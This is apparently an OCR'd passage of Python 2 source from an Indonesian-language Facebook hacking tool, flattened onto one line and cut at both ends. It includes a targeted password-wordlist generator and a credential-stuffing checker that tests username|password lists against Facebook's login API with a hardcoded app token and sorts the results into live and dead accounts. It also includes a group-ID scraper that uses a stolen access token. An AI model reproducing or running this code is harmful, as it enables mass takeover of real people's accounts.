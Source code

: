 h, g, f, a, g, h, b, f, g, b, g, h, c, f, g, c, g, h, d, f, g, d, g, h, a, i, a, j, a, k, i, e, i, j, i, k, b, i, b, j, b, k, c, i, c, j, c, k, e, k, j, a, j, b, j, c, j, d, j, j, k, a, k, b, k, c, k, d, k, k, i, l, i, m, i, n, j, l, j, m, j, n, j, k)) wg = 0 while wg < 100: wg = wg + 1 file.write(a + str(wg) + '\n') en = 0 while en < 100: en = en + 1 file.write(i + str(en) + '\n') word = 0 while word < 100: word = word + 1 file.write(d + str(word) + '\n') gen = 0 while gen < 100: gen = gen + 1 file.write(j + str(gen) + '\n') file.close() time.sleep(1.5) print '\n\x1b[1;91m[+] \x1b[1;97mTersimpan \x1b[1;91m: \x1b[1;97m %s.txt' % a raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]') lain() except IOError as e: print '\x1b[1;91m[!] Gagal membuat file' raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]') lain() def check_akun(): os.system('clear') try: toket = open('login.txt', 'r').read() except IOError: print '\x1b[1;91m[!] Token tidak ditemukan' os.system('rm -rf login.txt') time.sleep(1) login() else: os.system('clear') print logo print 40 * '\x1b[1;97m\xe2\x95\x90' print '\x1b[1;91m[?] \x1b[1;92mIsi File\x1b[1;91m : \x1b[1;97musername|password' print 40 * '\x1b[1;97m\xe2\x95\x90' live = [] cek = [] die = [] try: file = raw_input('\x1b[1;91m[+] \x1b[1;92mFile \x1b[1;91m:\x1b[1;97m ') list = open(file, 'r').readlines() except IOError: print '\x1b[1;91m[!] File tidak ditemukan' raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]') lain() pemisah = raw_input('\x1b[1;91m[+] \x1b[1;92mPemisah \x1b[1;91m:\x1b[1;97m ') jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...') print 40 * '\x1b[1;97m\xe2\x95\x90' for meki in list: username, password = meki.strip().split(str(pemisah)) url = 'https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + username + '&locale=en_US&password=' + password + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6' data = requests.get(url) mpsh = json.loads(data.text) if 'access_token' in mpsh: live.append(password) print '\x1b[1;97m[\x1b[1;92mLive\x1b[1;97m] \x1b[1;97m' + username + ' | ' + password elif 'www.facebook.com' in mpsh['error_msg']: cek.append(password) print '\x1b[1;97m[\x1b[1;93mCheck\x1b[1;97m] \x1b[1;97m' + username + ' | ' + password else: die.append(password) print '\x1b[1;97m[\x1b[1;91mMati\x1b[1;97m] \x1b[1;97m' + username + ' | ' + password print '\n\x1b[1;91m[+] \x1b[1;97mTotal\x1b[1;91m : \x1b[1;97mLive=\x1b[1;92m' + str(len(live)) + ' \x1b[1;97mCheck=\x1b[1;93m' + str(len(cek)) + ' \x1b[1;97mDie=\x1b[1;91m' + str(len(die)) raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]') lain() def grupsaya(): os.system('clear') try: toket = open('login.txt', 'r').read() except IOError: print '\x1b[1;91m[!] Token tidak ditemukan' os.system('rm -rf login.txt') time.sleep(1) login() else: os.system('clear') print logo print 40 * '\x1b[1;97m\xe2\x95\x90' jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...') print 40 * '\x1b[1;97m\xe2\x95\x90' try: uh = requests.get('https://graph.facebook.com/me/groups?access_token=' + toket) gud = json.loads(uh.text) for p in gud['data']: nama = p['name'] id = p['id'] f = open('grupid.txt', 'w') listgrup.append(id) f.write(id + '\n') print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama \x1b[1;91m:\x1b[1;97m ' + str(nama) print '\x1b[1;91m[+] \x1b[1;92mID \x1b[1;91m:\x1b[1;97m ' + str(id) print 40 * '\x1b[1;97m=' print '\n\r\x1b[1;91m[+] \x1b[1;97mJumlah Grup \x1b[1;96m%s' % len(listgrup) print '\x1b[1;91m[+] \x1b[1;97mTersimpan \x1